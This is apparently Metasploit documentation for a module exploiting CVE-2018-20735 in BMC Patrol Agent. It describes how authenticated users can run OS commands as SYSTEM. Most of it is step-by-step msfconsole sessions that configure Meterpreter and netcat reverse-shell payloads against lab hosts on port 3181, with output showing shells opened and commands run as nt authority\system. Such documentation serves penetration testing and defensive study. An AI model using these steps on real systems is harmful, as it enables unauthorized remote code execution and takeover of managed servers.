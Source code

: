 ## Description
This module exploits the lack of proper authorization checks in the BMC Patrol Agent that allows arbitrary operating system commands to be executed at a higher privilege level than the user being authenticated. The module is simply a ruby implementation of the remote protocol provided by BMC Patrol Agent to execute system commands.

The vulnerability was identified by Ryan Wincey of [Securifera](https://www.securifera.com/) and was assigned [CVE-2018-20735](https://www.cvedetails.com/cve/CVE-2018-20735/) Further details can be found at the [Securifera website](https://www.securifera.com/blog/2018/12/17/bmc-patrol-agent-domain-user-to-domain-admin/).


## Vulnerable Application
The module affects the BMC Patrol Agent component of [BMC TrueSight Infrastructure Management](https://docs.bmc.com/docs/TSInfrastructure/113/home-774795879.html). The agent is installed on servers managed using BMC TrueSight Infrastructure Management and listens on TCP port 3181. The vulnerability affects versions up to 11.3.

## Verification Steps
To use this exploit you will need access to BMC Patrol Agent.

1. Install the BMC Patrol agent on a host.
2. Ensure that the PatrolAgent service is running and listening on TCP port 3181.
3. Launch `msfconsole`.
4. Load the module `use exploit/multi/misc/bmc_patrol_cmd_exec`.
5. Set the username to authenticate with `set USER patrol`.
6. Set the password for the user `set PASSWORD password`.
7. Set the command to execute `set CMD "whoami"`.
8. Run the exploit `exploit`.

The result should be that the string `nt authority\system` is returned and output.

## Scenarios
The exploit module contains several targets as detailed below.

### Target 0: Windows Powershell Injected Shellcode
This module target provides support for command staging to enable arbitrary Metasploit payloads to be used against Windows targets (for example, a Meterpreter shell). 

	msf > use exploit/multi/misc/bmc_patrol_cmd_exec 
	msf exploit(multi/misc/bmc_patrol_cmd_exec) > set RHOSTS 192.168.162.133
	RHOSTS => 192.168.162.133
	msf exploit(multi/misc/bmc_patrol_cmd_exec) > set LHOST 192.168.162.128
	LHOST => 192.168.162.128
	msf exploit(multi/misc/bmc_patrol_cmd_exec) > set payload windows/meterpreter/reverse_tcp
	payload => windows/meterpreter/reverse_tcp
	msf exploit(multi/misc/bmc_patrol_cmd_exec) > set USER user
	USER => user
	msf exploit(multi/misc/bmc_patrol_cmd_exec) > set PASSWORD password
	PASSWORD => password
	msf exploit(multi/misc/bmc_patrol_cmd_exec) > exploit -j
	[*] Exploit running as background job 0.
	msf exploit(multi/misc/bmc_patrol_cmd_exec) > 
	[*] Started reverse TCP handler on 192.168.162.128:4444 
	[*] 192.168.162.133:3181 - Connected to BMC Patrol Agent.
	[*] 192.168.162.133:3181 - Successfully authenticated user.
	[*] Sending stage (179779 bytes) to 192.168.162.133
	[*] Meterpreter session 1 opened (192.168.162.128:4444 -> 192.168.162.133:58461) at 2019-02-10 23:00:03 -0500


### Target 1: Generic Cmd
This target can be used with *cmd* payloads to execute operating system commands against the target host.

	msf > use exploit/multi/misc/bmc_patrol_cmd_exec 
	msf exploit(multi/misc/bmc_patrol_cmd_exec) > set RHOSTS 192.168.162.130
	RHOSTS => 192.168.162.130
	msf exploit(multi/misc/bmc_patrol_cmd_exec) > set LHOST 192.168.162.128
	LHOST => 192.168.162.128
	msf exploit(multi/misc/bmc_patrol_cmd_exec) > set USER patrol
	USER => patrol
	msf exploit(multi/misc/bmc_patrol_cmd_exec) > set PASSWORD password
	PASSWORD => password
	msf exploit(multi/misc/bmc_patrol_cmd_exec) > set TARGET 1
	TARGET => 1
	msf exploit(multi/misc/bmc_patrol_cmd_exec) > set PAYLOAD cmd/unix/reverse_netcat
	PAYLOAD => cmd/unix/reverse_netcat
	msf exploit(multi/misc/bmc_patrol_cmd_exec) > exploit -j
	[*] Exploit running as background job 0.
	msf exploit(multi/misc/bmc_patrol_cmd_exec) > 
	[*] Started reverse TCP handler on 192.168.162.128:4444 
	[*] 192.168.162.130:3181 - Connected to BMC Patrol Agent.
	[*] 192.168.162.130:3181 - Successfully authenticated user.
	[*] Command shell session 1 opened (192.168.162.128:4444 -> 192.168.162.130:57408) at 2019-02-10 23:05:12 -0500


### Target Cmd Execution: Windows/Unix/Linux
This target isn't a formal target. It was added to allow a user to execute commands entirely through the Patrol Agent remote administration feature and view the output. It would be the most quiet of the targets as it does not create any additional connections or use powershell by default like Target 0.
	
	msf > use exploit/multi/misc/bmc_patrol_cmd_exec
	msf exploit(multi/misc/bmc_patrol_cmd_exec) > set RHOSTS 192.168.162.133
	RHOSTS => 192.168.162.133
	msf exploit(multi/misc/bmc_patrol_cmd_exec) > set USER user
	USER => user
	msf exploit(multi/misc/bmc_patrol_cmd_exec) > set PASSWORD password
	PASSWORD => password
	msf exploit(multi/misc/bmc_patrol_cmd_exec) > set CMD whoami
	msf exploit(multi/misc/bmc_patrol_cmd_exec) > exploit
	[*] 192.168.162.133:3181 - Connected to BMC Patrol Agent.
	[*] 192.168.162.133:3181 - Successfully authenticated user.
	[*] 192.168.162.133:3181 - Command to execute: whoami
	[*] 192.168.162.133:3181 - Output:
	nt authority\system


